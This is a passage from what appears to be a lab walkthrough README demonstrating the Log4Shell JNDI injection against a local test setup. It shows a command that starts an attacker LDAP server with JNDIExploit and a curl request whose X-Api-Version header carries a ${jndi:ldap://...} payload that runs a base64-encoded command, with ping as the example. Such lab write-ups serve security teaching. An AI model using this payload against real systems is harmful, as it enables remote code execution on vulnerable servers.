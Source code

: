    <img src="./Screenshots/Screenshot4.png" width=80% height=80%><br><br>

2. On Ubuntu, setup the LDAP server using JNDIExploit:
   ```bash
   java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ubuntu-ip -p 8888
   ```
   <img src="./Screenshots/Screenshot5.png" width=80% height=80%><br><br>

3. Back to Kali Linux, open a new terminal and trigger the exploit using the command below:
   ```bash
   curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://ubuntu-ip:1389/Basic/Command/Base64/(base64_command)}'
   ```

   Convert a command into Base64, then include at the end of the trigger exploit command. For example, `Ping` command:

   <img src="./Screenshots/Screenshot6.png" width=80% height=80%><br><br>

   <img src="./Screenshots/Screenshot7.png" width=80% height=80%><br><br>
